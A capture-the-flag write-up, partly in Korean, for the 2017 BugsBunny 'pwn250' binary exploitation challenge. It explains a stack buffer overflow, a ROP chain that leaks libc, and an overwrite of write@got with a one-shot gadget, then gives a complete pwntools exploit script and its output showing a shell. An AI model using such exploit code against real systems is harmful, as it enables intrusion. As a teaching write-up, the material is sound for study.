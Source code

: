 # 2017 bugsbunny - [PWN] Pwn250

## Key words

- 64bit One-shot gadget
- rdi, rsi, edx

## Check Security

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution

```c
ssize_t here()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x100uLL);
}
```

심플 합니다. 추가적으로 `foryou`라는 함수에서 `pop rdi, pop rsi, pop rdx, retn`의 가젯을 주기 때문에 이를 이용해서 쉽게 `64bit ROP Chain`을 구성할 수 있습니다.

```
.text:0000000000400566                 public foryou
.text:0000000000400566 foryou          proc near
.text:0000000000400566                 push    rbp
.text:0000000000400567                 mov     rbp, rsp
.text:000000000040056A                 pop     rdi
.text:000000000040056B                 pop     rsi
.text:000000000040056C                 pop     rdx
.text:000000000040056D                 retn
```

추가적으로, 바이너리가 `Partial RELRO`이기 때문에 `got`를 덮을 수 있다는 것을 이용하여 `write@got`를 `one-shot gadget`으로 덮고 `write`함수를 실행 시켜 쉘을 얻었습니다.

## Exploit Code

```python
from pwn import *

target = "./pwn250"

p = process(target)
e = ELF(target)

# pop rdi, pop rsi, pop rdx, ret
magic_addr = 0x40056a

payload = "A" * 0x80
payload += "B" * 8
payload += p64(magic_addr)
payload += p64(1)
payload += p64(e.got['__libc_start_main'])
payload += p64(8)
payload += p64(e.plt['write'])
payload += p64(magic_addr)
payload += p64(0)
payload += p64(e.got['write'])
payload += p64(8)
payload += p64(e.plt['read'])
payload += p64(e.plt['write'])

p.send(payload)

recv = u64(p.recv().ljust(8, "\x00"))
libc_base = recv - 0x20740
one_shot = libc_base + 0x4526A

log.info("libc base : {}".format(hex(libc_base)))
log.info("one_shot  : {}".format(hex(one_shot)))

p.send(p64(one_shot))

p.interactive()
```

## Result

```
tbkim@ubuntu:~/ctf/pwnable/0016_2017_bugsbunny_pwn250$ python sol_pwn250.py 
[+] Starting local process './pwn250': pid 5543
[*] '/home/tbkim/ctf/pwnable/0016_2017_bugsbunny_pwn250/pwn250'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] libc base : 0x7f6c3d983000
[*] one_shot  : 0x7f6c3d9c826a
[*] Switching to interactive mode
$ id
uid=1000(tbkim) gid=1000(tbkim) groups=1000(tbkim)
```